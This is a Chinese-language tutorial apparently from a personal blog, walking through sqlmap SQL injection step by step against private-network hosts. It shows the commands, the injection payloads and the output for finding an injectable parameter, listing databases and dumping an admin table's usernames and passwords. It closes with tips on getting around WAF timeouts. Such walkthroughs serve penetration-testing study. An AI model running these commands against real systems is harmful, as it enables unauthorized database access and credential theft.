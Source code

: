 ```yaml
---
title: Net—sqlmap 使用实例
date: 2020-11-21
author: LM
tags: ["网络测试"]
---
```


## 1.第一步：查找注入点

```bash
sqlmap -u '192.168.3.59/article.php?id=1' #必须带上GET参数，否则sqlmap不知道如何注入
```

```bash
root@kali:~# sqlmap -u '192.168.3.59/article.php?id=1'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:30:43

[11:30:43] [INFO] resuming back-end DBMS 'mysql' 
[11:30:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1817=1817

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2184 UNION ALL SELECT NULL,CONCAT(0x716b707071,0x517964767671746351415543654b4b794171664b78754b57434b70774c6b56434b6a46786a4d5a76,0x717a706271)-- BgjA
---
[11:30:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:30:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.3.59'

[*] shutting down at 11:30:43
```

**结果：**出现Parameter: id (GET)等内容，存在注入点

## 2.第二步：查找数据库

```bash
sqlmap -u '192.168.3.59/article.php?id=1' --dbs    #查找数据库
```

```bash
#........#
[11:37:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:37:43] [INFO] fetching database names
[11:37:43] [INFO] the SQL query used returns 2 entries
[11:37:43] [INFO] retrieved: information_schema
[11:37:43] [INFO] retrieved: website
available databases [2]:                                                       
[*] information_schema
[*] website
#......#
```

**结果：**注入发现两个数据库information_schema和website。information_schema主要是mysql数据库、表、列的信息，没有什么用处，website是网站的数据，对这个数据库进行注入。

## 3.第三步：注入

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website --tables  #对website表注入
```

```bash
#。。。。。#
[11:41:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:41:14] [INFO] fetching tables for database: 'website'
[11:41:14] [INFO] the SQL query used returns 2 entries
[11:41:14] [INFO] retrieved: admin
[11:41:14] [INFO] retrieved: articles
Database: website                                                              
[2 tables]
+----------+
| admin    |
| articles |
+----------+
#..........#
```

**结果：**发现有两张表admin、articles，选择注入admin

## 4.第四步：读取数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin --columns  #读取admin表中列
```

```bash
#..............#
[11:43:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:43:46] [INFO] fetching columns for table 'admin' in database 'website'
[11:43:47] [INFO] the SQL query used returns 3 entries
[11:43:47] [INFO] retrieved: "id","int(11)"
[11:43:47] [INFO] retrieved: "user","text"
[11:43:47] [INFO] retrieved: "pass","text"
Database: website                                                              
Table: admin
[3 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| user   | text    |
| id     | int(11) |
| pass   | text    |
+--------+---------+
#............#
```

**结果：**注入得到了三列user、id、pass，只要得到user和pass，就能得到密码(一般是网站后台管理的登录密码)

## 5.第五步：查看数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin -C user,pass --dump #将uesr，pass数据输出
```

```bash
#..........#
[11:47:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:47:33] [INFO] fetching entries of column(s) '`user`, pass' for table 'admin' in database 'website'
[11:47:33] [INFO] the SQL query used returns 3 entries
[11:47:33] [INFO] retrieved: "test1","123456"
[11:47:33] [INFO] retrieved: "test2","123456"
[11:47:33] [INFO] retrieved: "test3","123456"
Database: website                                                              
Table: admin
[3 entries]
+--------+--------+
| user   | pass   |
+--------+--------+
| test1  | 123456 |
| test2  | 123456 |
| test3  | 123456 |
+--------+--------+
#............#
```

**结果：**可以查看到用户名与密码

## 6.尝试一下

```bash
sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer --dump

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer -columns 

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --tables

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --dump-all

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch --dbs

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch
```

## 7.常见报错

**Q：有时发现跑出的数据都是毫无意义的字符**

**A：解决方案**

- SQLMAP会提示你加–hex或者–no-cast，有时会有帮助
- 如果你用的是time-based注射，建议增加延时–time-sec等参数，即使你的网速比较好，但是服务器可能遇见各种奇怪环境
- 增加level的数值

**Q：显示unable to connect to the target url**

**A：解决方案**

第一个可能是 time-out 设置的太小，出现问题，再有可能就是 waf 直接把请求拦截掉了，因此得不到响应。有些 waf 比较友善，过滤后会提示“参数不合法”，但是也有些waf则直接把请求拦下来无提示导致应答超时，这样在测试时会消耗大量的时间等待响应，建议减少time-out进行检测，在跑数据时改回time-out

**Q：提示possible integer casting detected**

**A：解决方案**

如果是在手工测试，建议到这里可以停止了，节省时间。如果是在扫描器扫描的盲注，那么到这里坚决无视警告继续下去。



